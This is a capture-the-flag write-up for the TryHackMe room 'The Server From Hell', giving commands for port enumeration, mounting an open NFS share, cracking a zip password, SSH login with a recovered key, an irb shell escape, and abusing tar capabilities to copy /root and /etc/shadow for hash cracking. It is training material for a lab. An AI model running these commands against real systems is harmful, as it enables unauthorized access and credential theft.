### ✨ Introduction
The Server From Hell is a Linux CTF room on TryHackMe that focuses on hacking, from enumerating hidden ports, finding misconfigured NFS shares, cracking zip files, using SSH keys to log in, and escalating privileges using Linux capabilities to gain a root shell.

## 🎯 Objectives
- Find "hidden" ports/services and verify their behavior with `nc`
- Use misconfigured NFS (2049/tcp) to "extract" the user's SSH keys
- Escape from the IRB (Interactive Ruby) to a real shell
- Use the capabilities of /bin/tar to read forbidden files → obtain the root hash
- Crack the hash to obtain the password → `su root` and collect the flag

# 🧠 TryHackMe - The Server From Hell

🟡 Category: CTF / Boot-to-Root
🧩 Difficulty: Medium
🕵️‍♂️ Mode: Boot-to-Root CTF
🧩 URL: The Server From Hell
👨‍💻 Author: Thanyakorn

---

## 📚 Table of Contents

- 📌 Information from the Problem
- 🔎 1) Recon & Port Scan
- 📡 2) Check Banner and Web Services
- 🌐 3) Scan Ports 1–100 According to Hint
- 🌐 3.1) Automatically Scan Ports 1–100 (Netcat Script)
- 🌐 3.2) Find Port Commands by Running the Script
- 📂 4) Detect and Mount NFS Share
- 📂 5) Next Steps (After Extracting Backup.zip)
- 🔑 6) Try SSH Access (According to Hint: 2500–4500)
- 🔓 7) From irb → Exit to /bin/bash (Shell Escape)
- 🔎 2 Methods to Find the Root.txt File

---

## 📌 Problem Information
> “Start at port 1337 and enumerate your way. Good luck.”

## 🔍 1. Recon & Port Scan
Start by trying the following command:
```bash
nmap -sC -sV -Pn <TARGET_IP>
```
- `-sC` → Run Nmap Default Scripts (NSE) to find in-depth information such as SSL certs, FTP anon, and SSH key fingerprints.
- `-sV` → Check service version.
- `-Pn` → Test service even if the host is not online.

❌ Problem: Using -sC causes Nmap to run a large number of scripts. → Each script must wait for a response or timeout from the service. → This causes **slow scanning**, especially if multiple open ports are found.

For speed, use the command:
```bash
nmap -sV -vv <TARGET_IP>
```


- Remove `-sC` → No need to run NSE scripts → Scans are faster.
- Use `-sV` only → Focus on services and versions.
- Add `-vv` (very verbose) → Nmap reports results port by port in real time, resulting in faster results even while scanning in the background.

✅ This will give you open ports and running services fast enough to perform banner grabbing/manual tests, such as using nc.

### ℹ️ Analyze scan results
The scan revealed a large number of open ports (20+). There were also some unusual ports like `10628`, `16000`, `2607`, `5001`, which could be special services or **honeyports** intentionally opened in the CTF or placed to trick users.

## 📡 2. Check Banners and Web Services
> “Start at port 1337 and enumerate your way. Good luck.”

So, try using nc to connect to port 1337:
```bash
nc <TARGET_IP> 1337
```



Result:
```text
Welcome traveler, to the beginning of your journey.
To begin, find the trollface.
Legend says he's hiding in the first 100 ports.
Try printing the banners from the ports.
```

📌 From this message, we can conclude that we need to **Scan for ports** (1–100) and try pulling banners from those ports to find where the “trollface” is hiding.

## 🌐 3. Scan ports 1–100 according to the hint.
After receiving the hint on port 1337, use `nc` to connect to ports 1–100 one by one to see if any of them respond with any strange messages.

📥 Commands used
```bash
nc <TARGET_IP> 1
nc <TARGET_IP> 2
nc <TARGET_IP> 3
nc <TARGET_IP> 4
```



📊 Result
All ports tried (1–4 as shown) returned the same response:
```text
550 12345 00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
```

📌 This means that you must enumerate **all ports in the range** 1–100 to find the ports that are hiding special messages (“trollfaces”)

## 🌐 3.1 Automatically scan ports 1–100 (Netcat script)
Netcat.sh script file:
```bash
for i in {1..100}
do
nc 10.201.52.151 $i
echo "\n"
done
```
Run command:
```bash
bash Netcat.sh
```



Result: Display banners/responses for each port 1–100 to search for hidden messages based on hints.

## 🌐 3.2 Port-pointing commands found by running the script
Some results (notable banners):
```bash
... go to port 12345 ...
```

Connecting to port 12345:
```bash
nc 10.201.52.151 12345
```



Message received:
```text
NFS shares are cool, especially when they are misconfigured.
It's on the standard port, no need for another scan.
```

📌 This message likely means:
- NFS (Network File System) is running.
- There is likely a shared file/directory on the target machine.
- The configuration may be lax (misconfigured) — meaning the share may allow read/write access. Or allow mounting without authentication.
- It runs on the standard port (2049), so no need for another port scan — “no need for another scan”.

## 📂 4. Detect and mount NFS shares

1) Verify NFS export
Run the command:
```bash
showmount -e 10.201.52.151
```
- showmount → See which directories the target machine exports.
- `-e` → Show the export list (directories available for mounting).
-


Output:
```text
Export list for 10.201.52.151:
/home/nfs *
```
Meaning: /home/nfs is exported to all hosts (*) — this is an open (potentially misconfigured) setting.

2) Create a mount folder.
```bash
mkdir mount
```
- mkdir → Create a new folder
- Use this folder as the mount point for the NFS share

3) Mount the NFS share
Mount the share to the mount folder:
```bash
mount 10.201.52.151:/home/nfs mount
```
- mount → Connect the directory from the target computer to your computer
- `10.201.52.151:/home/nfs` → The path to the NFS share to be mounted
- `mount` → The local directory created in the previous step

4) Verify the files in the share



- ls -la → Show all files, including hidden files, with permissions

## 🔎 Found backup.zip → Extract using the password from the wordlist

1. Use fcrackzip to perform a dictionary attack to find the password for backup.zip.

```bash
fcrackzip -v -u -D -p /usr/share/wordlists/rockyou.txt backup.zip
```


- `-v`: Verbose (Detailed display)
- `-u`: Use unzip test (Test for actual extraction, like unzip)
- `-D`: Dictionary mode
- `-p /path/to/wordlist`: Specify the wordlist file (here, rockyou.txt)

Result: Found password `zxcvbnm` (PASSWORD FOUND!!!!: pw = zxcvbnm)

2. Copy Copy backup.zip to your working directory and extract it.

```bash
cp mount/backup.zip .
unzip backup.zip
```



- `unzip` will prompt for a password → enter `zxcvbnm` and the system will extract the files.

3. Extraction results (files seen)
- `home/hades/.ssh/id_rsa` (private key)
- `home/hades/.ssh/hint.txt`
- `home/hades/.ssh/authorized_keys`
- `home/hades/.ssh/flag.txt`
- `home/hades/.ssh/id_rsa.pub`

✅ Note:
- `id_rsa` (private key) → You can use SSH to log in as `hades` (permissions must be set first)
- There is a `flag.txt` in the `.ssh` folder → Read the file to store the flags
- `authorized_keys` is in the backup file → May indicate a public key that allows automatic login

## 📂 Next 5 steps (after extracting backup.zip)
1. View the extracted structure
```bash
cd home
ls -la
```
- Result: The `hades` directory is found

2. View the hades user folder
```bash
cd hades
ls -la
```



Result: The `.ssh` folder is visible as a hidden file (and other files/folders)

3. Enter the .ssh and examine the files inside
```bash
cd .ssh
ls -la
```
Result: Found files
- `authorized_keys`
- `flag.txt`
- `hint.txt`
- `id_rsa`
- `id_rsa.pub`

## 🔑 6. Try SSH (hint: 2500–4500)

📝 1) Read the hint
```bash
cat hint.txt
# output: 2500-4500
```
👉 The port range to check is 2500–4500

🔍 2) Try SSH normally on port 22
```bash
ssh hades@10.201.52.151
```
⚠️ Result: `Connection reset by peer` → Port 22 is not enabled for SSH

🔌 3) Try connecting to some ports in the hint range Specify
```bash
ssh hades@10.201.52.151 -p2500
```
📡 Result: `SSH-2.0-SSH_v2.0@force10networks.com` banner → This is a network device (Force10), not a regular OpenSSH instance.
```bash
ssh hades@10.201.52.151 -p2501
ssh hades@10.201.52.151 -p2502
```



⚠️ Result: `Connection reset by peer` → No actual SSH service.

📡 4) The script tries SSH connections in the range 2500–4500.

1. Create the `Secure-shell.sh` script. Enter the code:
```bash
#!/bin/bash

for i in {2500..4500}
do
ssh hades@10.201.52.151 -p $i
done
```
> (The script will attempt an SSH connection to the user hades on any port in the range 2500–4500.)

2. Run the script:
```bash
bash Secure-shell.sh
```



3. Observe the output in the terminal:
- Many ports respond with `Connection reset by peer` → The target side immediately closes the connection (the service does not support SSH or refuses the connection).
- Some ports display a banner, such as `SSH-2.0-SSH_v2.0@force10networks.com` → This is a service for network devices (not OpenSSH), so connecting with a regular SSH client may not work (invalid format).
- When the script reaches port 3333, it detects that the protocol response is indeed SSH, displays a fingerprint, and asks "Are you sure you want to continue connecting (yes/no/[fingerprint])?" → This indicates that port 3333 provides SSH services (the host key has been sent).

## 🔓 7. From irb → Exit to /bin/bash (Shell escape)
- Connect with the private key:
```bash
ssh -i id_rsa hades@10.201.52.151 -p 3333
```



When the connection is successful, the Ruby interactive shell prompt (`irb(main):001:0>`) is displayed.

### Why is the connection successful? (No password required)

<details>

1. Key-based authentication
- SSH uses a key pair of a private key (we hold: `id_rsa`) and a public key (located on the target machine in `~hades/.ssh/authorized_keys`) instead of entering a password.

2. Short steps for authentication:
- The client (you) sends the server its public key ID (key ID). The server checks whether the public key exists in the user `hades` authorized_keys.
- If it exists, the server generates a challenge (random text) and asks the client to sign it with its private key.
- The client signs with `id_rsa` and returns the challenge. The server verifies the signature with the public key. If it's valid, login is permitted without a password.

3. Because in the backup.zip, we found `id_rsa` and the `authorized_keys` file of `hades` have the same **public key**, so login is possible directly.
</details>

🔑 Command ssh -i id_rsa ..
- `-i` (identity file) means
> Specify the private key file to use for authentication. (Authentication)

What to do next?
- Open the GTFOBins page and look at the entry for irb (irb can execute other programs).
- Use the GTFOBins command to spawn bash:
```ruby
exec '/bin/bash'
```



- Result: The system shell (bash) is created.

## 🔍 2 ways to find the root.txt file

### 1

<details>

🪄 Check for Linux Capabilities (Privilege escalation vector)

```bash
getcap -r / 2>/dev/null
```



Short Description
- `getcap` checks for files with Linux capabilities.
- `-r /` = recursive → scans backward/searches in all directories from the specified path; `/` = root directory → scan the entire system

🧾 Output
```bash
/usr/bin/mtr-packet = cap_net_raw+ep
/bin/tar = cap_dac_read_search+ep
```

📌 Let's focus on the second line, which has the following details:

🟠 `/bin/tar = cap_dac_read_search+ep`
- Capability: `cap_dac_read_search`
- Capability: Bypasses Discretionary Access Control (DAC) checks for read/search on files and directories → Programs can read files that are not readable by normal users (e.g., root files).
- Practical Impact: Direct and severe — `tar` can be used to archive the root directory (e.g., `/root`) and then write the file to a location that normal users can control (`/tmp`) → read the root file immediately (root flag, credentials)
- PrivEsc Usage Rate: High and direct — Privilege Escalation Channel Simple and fast in many cases

📂 Use tar (cap_dac_read_search) to extract the root files

🧭 Target
Use `/bin/tar` with `cap_dac_read_search+ep` to archive the `/root` directory to a location writable by the `hades` user (e.g., `/tmp`) and read the `root.txt` file with the **root flag**.

1) Navigate to the temporary directory
`bash
cd /tmp
ls
```
> Check for free space and writable space

2) Create an archive of /root with tar
`bash
tar -cvf test.tar /root
```

<details>

- tar
A program for creating/managing archives (tarballs)

- `-c` (create)
Create a new archive (archive archive)

- `-v` (verbose)
List files being added to the archive (see output one by one)

- `-f test.tar`
Specify the archive filename as `test.tar`

- `/root`
The directory to be archived.

Direct output: You will create a `test.tar` file in the current directory, which is an archive containing the entire contents of `/root` (all files and subfolders).

</details>

3) Extract the files from test.tar and extract the root files. 🗃️
```bash
tar -xvf test.tar
ls
```
- `-x` = extract (Extract files from the archive)
- `-v` = verbose (Display filenames while extracting)
- `-f` test.tar = Specify the archive file. To be extracted



📤 Result: You will see the `root/` folder in the current directory. (This is a copy of `/root` in the archive.)

## Root Flag


</details>

### 2
<details>

📝 This method is root: Extract /etc/shadow → Extract → Crack password → Su root

> `/etc/shadow` stores hashed passwords for all users. If we use `tar` (with the bypass authentication capability) to extract this file and crack the hash of `root`, we can use the actual password to log into the root account (`su` or `ssh`).

1. Create an archive for /etc/shadow (using the tar capability).
```bash
tar -cvf /tmp/shadow.tar /etc/shadow
```
- Save the `/etc/shadow` file to `/tmp/shadow.tar`

2. Extract the archive and view its contents.
```bash
tar -xvf /tmp/shadow.tar -C /tmp
```



- You will get a user hash line, such as `root:$6$.......`

3. Place the root hash on the attacker's machine (or a file on the target machine) to crack.
Example — Create a root.hash file with the root hash line:

```bash
echo 'root:$6$.......' > roots.hash
```



4. Use John the Ripper (or hashcat) to perform a dictionary attack.

5. Check the results once the attack has been successfully cracked.

- john --show roots.hash

6. Use the obtained password to log in to root
on the target:



</details>


